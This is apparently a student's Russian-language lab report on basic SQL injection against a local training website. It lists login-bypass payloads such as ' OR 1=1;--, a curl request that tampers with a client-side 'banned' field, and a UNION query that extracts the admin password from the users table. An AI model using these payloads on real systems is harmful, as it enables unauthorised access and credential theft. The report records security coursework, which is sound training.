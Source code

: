 # Лабораторная работа 3. Примитивные SQL инъекции.

## Задание 1
Запустим сайт из VSCode. Обойдем защиту двумя способами:

### С помощью кодирования кавычек:
	' OR 1=1;--

### Войдя под произвольным логином:
	' OR 1=1
	  UNION
	  SELECT 'xexe'
	  ORDER BY 1 DESC; --

## Задание 2
Обойдем клиентскую защиту с помощью ``curl``:
	curl 'http://localhost:8080/signin'
	--data-raw 'name=Daria&pass=qazwsx&banned=true'

## Задание 3
Обойдем защиту с помощью кодирования кавычки в альтернативный формат:
	' OR 1=1;--

## Задание 4
Обойдем защиту с помощью кодирования кавычки в альтернативный формат и получим пароль из БД:
	' UNION
	  SELECT null, (SELECT name || '--' || pass
FROM users WHERE name = %27admin%27--), NULL FROM dual --

